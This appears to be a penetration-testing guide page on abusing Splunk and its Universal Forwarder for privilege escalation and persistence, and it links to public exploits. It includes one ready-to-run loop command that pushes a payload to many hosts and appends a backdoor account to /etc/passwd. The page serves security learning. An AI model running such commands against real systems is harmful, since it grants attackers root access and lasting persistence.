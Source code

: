 # Splunk LPE and Persistence

If **enumerating** a machine **internally** or **externally** you find **Splunk running** (port 8090), if you luckily know any **valid credentials** you can **abuse the Splunk service** to **execute a shell** as the user running Splunk. If root is running it, you can escalate privileges to root.

Also if you are **already root and the Splunk service is not listening only on localhost**, you can **steal** the **password** file **from** the Splunk service and **crack** the passwords, or **add new** credentials to it. And maintain persistence on the host.

In the first image below you can see how a Splunkd web page looks like.

## Splunk Universal Forwarder Agent Exploit Summary

For further details check the post [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). This is just a sumary:

**Exploit Overview:**
An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.

**Key Points:**

- The UF agent does not validate incoming connections or the authenticity of code, making it vulnerable to unauthorized code execution.
- Common password acquisition methods include locating them in network directories, file shares, or internal documentation.
- Successful exploitation can lead to SYSTEM or root level access on compromised hosts, data exfiltration, and further network infiltration.

**Exploit Execution:**

1. Attacker obtains the UF agent password.
2. Utilizes the Splunk API to send commands or scripts to the agents.
3. Possible actions include file extraction, user account manipulation, and system compromise.

**Impact:**

- Full network compromise with SYSTEM/root level permissions on each host.
- Potential for disabling logging to evade detection.
- Installation of backdoors or ransomware.

**Example Command for Exploitation:**

```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```

**Usable public exploits:**

- [https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)
- [https://www.exploit-db.com/exploits/46238](https://www.exploit-db.com/exploits/46238)
- [https://www.exploit-db.com/exploits/46487](https://www.exploit-db.com/exploits/46487)

## Abusing Splunk Queries

**For further details check the post [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

